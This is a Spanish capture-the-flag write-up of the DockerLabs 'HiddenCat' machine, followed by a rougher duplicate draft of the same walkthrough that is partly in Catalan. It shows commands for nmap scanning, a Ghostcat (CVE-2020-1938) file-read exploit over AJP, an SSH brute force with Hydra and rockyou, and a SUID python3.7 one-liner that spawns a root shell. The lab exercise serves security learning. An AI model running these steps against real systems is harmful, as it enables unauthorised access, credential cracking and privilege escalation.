

**Plataforma:** Dockerlabs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `Web` `Tomcat` `Python` `Hydra` `Information Leakage` `SUID`

## INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash
unzip hiddencat.zip
```

La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh hiddencat.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

## ESCANEO DE PUERTOS

Antes de comenzar el escaneo, detectamos un error en la máquina relacionado con los límites de archivos abiertos que impide el correcto funcionamiento de `nmap`. 

Para solucionarlo, ejecutamos el siguiente comando en otra terminal:

```Bash
sudo docker run --ulimit nofile=65536:65536 hiddencat
```

Info:
```
Starting OpenBSD Secure Shell server: sshd.
17-Feb-2026 13:55:38.159 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server version name:   Apache Tomcat/9.0.30
17-Feb-2026 13:55:38.162 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server built:          Dec 7 2019 16:42:04 UTC
17-Feb-2026 13:55:38.162 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server version number: 9.0.30.0
17-Feb-2026 13:55:38.162 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Name:               Linux
17-Feb-2026 13:55:38.162 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Version:            6.17.10+kali-amd64
17-Feb-2026 13:55:38.163 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Architecture:          amd64
17-Feb-2026 13:55:38.163 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Java Home:             /usr/local/openjdk-8/jre
17-Feb-2026 13:55:38.163 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Version:           1.8.0_242-b08
17-Feb-2026 13:55:38.163 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Vendor:            Oracle Corporation
17-Feb-2026 13:55:38.164 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_BASE:         /usr/local/tomcat
17-Feb-2026 13:55:38.164 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_HOME:         /usr/local/tomcat
17-Feb-2026 13:55:38.167 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.config.file=/usr/local/tomcat/conf/logging.properties
17-Feb-2026 13:55:38.167 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager
17-Feb-2026 13:55:38.167 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djdk.tls.ephemeralDHKeySize=2048
17-Feb-2026 13:55:38.168 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.protocol.handler.pkgs=org.apache.catalina.webresources
17-Feb-2026 13:55:38.168 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Dorg.apache.catalina.security.SecurityListener.UMASK=0027
------------------------------------------------------<MORE_OUTPUT>-----------------------------------------------------------------
```

Ahora que la máquina funciona correctamente, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```Bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
```

```Bash
nmap -n -Pn -sCV -p22,8009,8080 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-17 14:58 +0100
Nmap scan report for 172.17.0.2
Host is up (0.000041s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u4 (protocol 2.0)
| ssh-hostkey: 
|   2048 4d:8d:56:7f:47:95:da:d9:a4:bb:bc:3e:f1:56:93:d5 (RSA)
|   256 8d:82:e6:7d:fb:1c:08:89:06:11:5b:fd:a8:08:1e:72 (ECDSA)
|_  256 1e:eb:63:bd:b9:87:72:43:49:6c:76:e1:45:69:ca:75 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http    Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
MAC Address: 02:42:AC:11:00:03 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.38 seconds
```

Tenemos abiertos los puertos `22`, `8009` y `8080`.

Accedemos por `HTTP` en el puerto `8080` y nos encontramos un servicio `Apache Tomcat` en su versión `9.0.30`.

## EXPLOTACIÓN

Investigamos vulnerabilidades asociadas a esta versión y encontramos que es vulnerable a `Ghostcat` (CVE-2020-1938), que afecta al protocolo `AJP` en el puerto `8009`, permitiendo la lectura de archivos arbitrarios.

Descargamos el exploit, le damos permisos de ejecución y lo lanzamos contra la máquina objetivo apuntando al archivo `WEB-INF/web.xml`.

```Bash
chmod +x tomcat.py
```

```Bash
python3 tomcat.py 172.17.0.2 -p 8009 -f WEB-INF/web.xml
```

Info:
```
Getting resource at ajp13://172.17.0.2:8009/hissec
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat, Jerry ;)
  </description>

</web-app>
```

En la descripción del archivo `XML` encontramos una pista clara sobre un usuario: `Jerry`.

## ACCESO SSH

Sabiendo que el usuario es `jerry`, procedemos a realizar un ataque de `fuerza bruta` contra el servicio `SSH` utilizando `Hydra` y el diccionario `rockyou`.

```Bash
hydra -l jerry -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64
```

Info:
```
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-02-17 15:07:18
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.3:22/
[22][ssh] host: 172.17.0.3   login: jerry   password: chocolate
1 of 1 target successfully completed, 1 valid password found
```

Encontramos credenciales válidas para el usuario `jerry` : `chocolate`.

Accedemos por `SSH` con estas credenciales.

```Bash
ssh jerry@172.17.0.2
```

## ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo` y `SUID` para buscar vectores de escalada.

```Bash
find / -perm -4000 -type f 2>/dev/null
```

Info:
``` 
/bin/umount
/bin/su
/bin/mount
/bin/ping
/usr/bin/chsh
/usr/bin/perl5.28.1
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/perl
/usr/bin/newgrp
/usr/bin/python3.7m
/usr/bin/python3.7
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Observamos que el binario `/usr/bin/python3.7` tiene permisos `SUID`. Podemos aprovechar esto para generar una `shell` con privilegios de `root` ejecutando un comando arbitrario que mantenga los permisos del propietario.

```Bash
/usr/bin/python3.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Info:
```
# whoami
root
#
```

Ya somos root!


## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

Pero el nmap no funciona perque hi ha un error en la maquina. per solucionarho

```bash
sudo docker run --ulimit nofile=65536:65536 hiddencat
```

```
Starting OpenBSD Secure Shell server: sshd.
17-Feb-2026 13:55:38.159 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server version name:   Apache Tomcat/9.0.30
17-Feb-2026 13:55:38.162 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server built:          Dec 7 2019 16:42:04 UTC
17-Feb-2026 13:55:38.162 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server version number: 9.0.30.0
17-Feb-2026 13:55:38.162 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Name:               Linux
17-Feb-2026 13:55:38.162 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Version:            6.17.10+kali-amd64
17-Feb-2026 13:55:38.163 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Architecture:          amd64
17-Feb-2026 13:55:38.163 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Java Home:             /usr/local/openjdk-8/jre
17-Feb-2026 13:55:38.163 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Version:           1.8.0_242-b08
17-Feb-2026 13:55:38.163 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Vendor:            Oracle Corporation
17-Feb-2026 13:55:38.164 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_BASE:         /usr/local/tomcat
17-Feb-2026 13:55:38.164 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_HOME:         /usr/local/tomcat
17-Feb-2026 13:55:38.167 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.config.file=/usr/local/tomcat/conf/logging.properties
17-Feb-2026 13:55:38.167 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager
17-Feb-2026 13:55:38.167 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djdk.tls.ephemeralDHKeySize=2048
17-Feb-2026 13:55:38.168 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.protocol.handler.pkgs=org.apache.catalina.webresources
17-Feb-2026 13:55:38.168 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Dorg.apache.catalina.security.SecurityListener.UMASK=0027
------------------------------------------------------<MORE_OUTPUT>-----------------------------------------------------------------
```

Ara podem fer nmap

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
```

```bash
nmap -n -Pn -sCV -p22,8009,8080 --min-rate 5000 172.17.0.2
```

Info:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-17 14:58 +0100
Nmap scan report for 172.17.0.2
Host is up (0.000041s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u4 (protocol 2.0)
| ssh-hostkey: 
|   2048 4d:8d:56:7f:47:95:da:d9:a4:bb:bc:3e:f1:56:93:d5 (RSA)
|   256 8d:82:e6:7d:fb:1c:08:89:06:11:5b:fd:a8:08:1e:72 (ECDSA)
|_  256 1e:eb:63:bd:b9:87:72:43:49:6c:76:e1:45:69:ca:75 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http    Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
MAC Address: 02:42:AC:11:00:03 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.38 seconds
```

Accedemos puerto 8080 y encontramos un apache tomcat en su vevrsion 9.0.30.



Buscamos vulns asociadas a esta version y encontramos CVE-2020-1938.

nos descargamos el exploit
le damos permisos
```bash
chmod +x tomcat.py
```

```bash
python3 tomcat.py 172.17.0.2 -p 8009 -f WEB-INF/web.xml
```

```
Getting resource at ajp13://172.17.0.2:8009/hissec
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat, Jerry ;)
  </description>

</web-app>
```

Se nos da una pista sobre un usuario, Jerry.

intentamos fuerxa bruta ssh con jherry

```bash
hydra -l jerry -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64
```

```
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-02-17 15:07:18
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.3:22/
[22][ssh] host: 172.17.0.3   login: jerry   password: chocolate
1 of 1 target successfully completed, 1 valid password found
```

Encontramos credenciales para jerry : chocolate.

accedemos por ssh

```bash
ssh jerry@172.17.0.2
```

Comprobamos perrmisos sudo y suid

```bash
find / -perm -4000 -type f 2>/dev/null
```

```
/bin/umount
/bin/su
/bin/mount
/bin/ping
/usr/bin/chsh
/usr/bin/perl5.28.1
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/perl
/usr/bin/newgrp
/usr/bin/python3.7m
/usr/bin/python3.7
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

```bash
/usr/bin/python3.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```
# whoami
root
#
```

Ya somos root!